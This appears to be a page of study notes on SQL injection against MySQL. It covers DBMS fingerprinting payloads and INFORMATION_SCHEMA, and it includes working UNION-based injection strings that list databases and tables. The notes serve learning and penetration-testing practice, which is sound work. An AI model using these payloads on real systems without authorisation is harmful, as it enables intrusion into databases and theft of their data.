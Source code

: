 ## MySQL Fingerprinting

If webserver apache or nginx (aka linux) most likely DBMS is MySql
If IIS most likely MSSQL

|Payload|When to Use|Expected Output|Wrong Output|
|---|---|---|---|
|`SELECT @@version`|When we have full query output|MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'|In MSSQL it returns MSSQL version. Error with other DBMS.|
|`SELECT POW(1,1)`|When we only have numeric output|`1`|Error with other DBMS|
|`SELECT SLEEP(5)`|Blind/No Output|Delays page response for 5 seconds and returns `0`.|Will not delay response with other DBMS|
## INFORMATION_SCHEMA Database

to pull data with union select we need the following info:

- List of databases
- List of tables within each database
- List of columns within each table

The [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) database contains metadata about the databases and tables present on the server.

```sql
SELECT * FROM my_database.users;
```

## SCHEMATA

```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```
Now, let's do the same using a `UNION` SQL injection, with the following payload:

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```

 We can find the current database with the `SELECT database()` query.
```sql
cn' UNION select 1,database(),2,3-- -
```

## TABLES

The [TABLES](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html) table contains information about all tables throughout the database

- TABLE_SCHEMA
- TABLE_NAME
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
